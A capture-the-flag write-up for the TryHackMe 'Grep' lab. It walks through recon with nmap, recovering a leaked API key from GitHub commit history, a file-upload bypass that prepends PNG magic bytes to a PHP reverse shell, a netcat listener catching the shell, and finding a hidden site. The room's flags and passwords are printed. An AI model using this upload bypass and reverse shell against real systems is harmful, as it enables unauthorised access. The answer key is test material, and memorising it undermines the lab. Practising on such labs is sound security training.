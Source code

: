 > # [Grep](https://tryhackme.com/room/greprtp)

# Summary
<!-- TOC -->

- [Summary](#summary)
    - [Q1. What is the API key that allows a user to register on the website?](#q1-what-is-the-api-key-that-allows-a-user-to-register-on-the-website)
    - [Q2. What is the first flag?](#q2-what-is-the-first-flag)
    - [Q3. What is the email of the "admin" user?](#q3-what-is-the-email-of-the-admin-user)
    - [Q4. What is the host name of the web application that allows a user to check an email for a possible password leak?](#q4-what-is-the-host-name-of-the-web-application-that-allows-a-user-to-check-an-email-for-a-possible-password-leak)
    - [Q5. What is the password of the "admin" user?](#q5-what-is-the-password-of-the-admin-user)

<!-- /TOC -->

## Q1. What is the API key that allows a user to register on the website?
Recon with `nmap` first.<br>
```
$ nmap -A 10.10.252.167 -Pn
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-24 00:48 EDT
Nmap scan report for 10.10.252.167
Host is up (0.25s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 1cdfdaa745c2e34f124cd4c324867f7f (RSA)
|   256 e5b4c78ed75482e2b69964f79122607e (ECDSA)
|_  256 f8308a09d147142d18e64df5231ee13c (ED25519)
80/tcp  open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
443/tcp open  ssl/http Apache httpd 2.4.41
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.41 (Ubuntu)
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=grep.thm/organizationName=SearchME/stateOrProvinceName=Some-State/countryName=US
| Not valid before: 2023-06-14T13:03:09
|_Not valid after:  2024-06-13T13:03:09
|_http-title: 403 Forbidden
Service Info: Host: ip-10-10-252-167.eu-west-1.compute.internal; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.92 seconds
```
We need to add `/etc/hosts` with `IP grep.thm` to access the webapp on port 443.<br>
![](images/1.png)<br>
If you perform register, you will receive error `Invalid or Expire API key`.<br>
Search with `SearchMe` and php language on github. you will see a [reposity](https://github.com/supersecuredeveloper/searchmecms), follow `api\register.php`, you willv see the code will check field named `X-THM-API-Key` with value `TBA`.<br>
![](images/2.png)<br>
View in commit history, you will see a commit named `remove key` [link](https://github.com/supersecuredeveloper/searchmecms/commit/db11421db2324ed0991c36493a725bf7db9bdcf6), at this time we have the value of API key.<br>
![](images/3.png)<br>
**Answer:** ffe60ecaa8bba2f12b43d1a4b15b8f39

## Q2. What is the first flag?
Use `Burp Suite` to modifiy the POST request, change `X-THM-Api-Key` to the above value.
![](images/4.png)<br>
Successfully register an account to the website.<br>
![](images/5.png)<br>
After login with the account you just create, the first flag is appear.<br>
![](images/6.png)<br>
**Answer:** THM{4ec9806d7e1350270dc402ba870ccebb}

## Q3. What is the email of the "admin" user?
In the same folder with `register.php`, another file is `upload.php`, navigate to this file, this page is allow user to upload a file with predefined magicbytes.
![](images/7.png)<br>
At here, we will upload a [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) to bypass magicbytes check.
I use PNG's magicbytes to bypass check function.
```
$ xxd php_reverse_shell.php | head
00000000: 8950 4e47 3c3f 7068 700a 2f2f 2070 6870  .PNG<?php.// php
00000010: 2d72 6576 6572 7365 2d73 6865 6c6c 202d  -reverse-shell -
00000020: 2041 2052 6576 6572 7365 2053 6865 6c6c   A Reverse Shell
00000030: 2069 6d70 6c65 6d65 6e74 6174 696f 6e20   implementation 
00000040: 696e 2050 4850 0a2f 2f20 436f 7079 7269  in PHP.// Copyri
00000050: 6768 7420 2843 2920 3230 3037 2070 656e  ght (C) 2007 pen
00000060: 7465 7374 6d6f 6e6b 6579 4070 656e 7465  testmonkey@pente
00000070: 7374 6d6f 6e6b 6579 2e6e 6574 0a2f 2f0a  stmonkey.net.//.
00000080: 2f2f 2054 6869 7320 746f 6f6c 206d 6179  // This tool may
00000090: 2062 6520 7573 6564 2066 6f72 206c 6567   be used for leg
```
Successfully upload this file to server.<br>
![](images/8.png)<br>
Prepare the listening on port 4444, then access to this file you will receive the reverse shell from it.<br>
![](images/9.png)<br>
```
$ nc -lvnp 4444  
listening on [any] 4444 ...
connect to [10.8.61.205] from (UNKNOWN) [10.10.233.1] 41086
Linux ip-10-10-233-1 5.15.0-1038-aws #43~20.04.1-Ubuntu SMP Fri Jun 2 17:10:57 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 10:45:22 up  1:26,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
In `/var/www/backup`, there is a file named `users.sql`. <br>
```
$ ls /var/www/backup 
users.sql
```
This file is not encrypt, so we can read it directly tp grab admin's email.<br>
![](images/12.png)<br>
**Answer:** admin@searchme2023cms.grep.thm

## Q4. What is the host name of the web application that allows a user to check an email for a possible password leak?
Read `/etc/hosts`, there is another site on this machine called  `leakchecker.grep.thm`<br>
```$ cat /etc/hosts
127.0.0.1 localhost
127.0.0.1 grep.thm leakchecker.grep.thm

\# The following lines are desirable for IPv6 capable hosts
::1 ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
ff02::3 ip6-allhosts
```
Add this site to hosts file, then access to it.<br>
But I can't access to this site. So I try to scan all port with `nmap -p-`.<br>
![](images/10.png)<br>
```
$ nmap 10.10.233.1 -p-        
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-24 07:10 EDT
Nmap scan report for leakchecker.grep.thm (10.10.233.1)
Host is up (0.26s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
443/tcp   open  https
51337/tcp open  unknown
```
I found port 51337 is open and successfully access this site.<br>
![](images/11.png)<br>
**Answer:** leakchecker.grep.thm

## Q5. What is the password of the "admin" user?
Submit admin's email to get password.<br>
![](images/13.png)<br>
**Answer:** admin_tryhackme!


